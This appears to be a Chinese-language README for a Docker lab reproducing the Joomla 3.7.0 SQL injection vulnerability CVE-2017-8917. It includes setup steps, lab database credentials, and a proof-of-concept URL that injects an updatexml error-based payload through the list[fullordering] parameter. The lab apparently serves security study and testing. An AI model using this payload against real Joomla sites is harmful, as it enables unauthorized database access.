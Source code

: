 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境

## 测试环境

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

启动后访问`http://your-ip`即可看到Joomla的安装界面，当前环境的数据库信息为：

 - 数据库地址：mysql:3306
 - 用户：root
 - 密码：root
 - 数据库名：joomla

填入上述信息，正常安装即可。

## POC测试

安装完成后，访问`http://your-ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到报错信息：

![](1.png)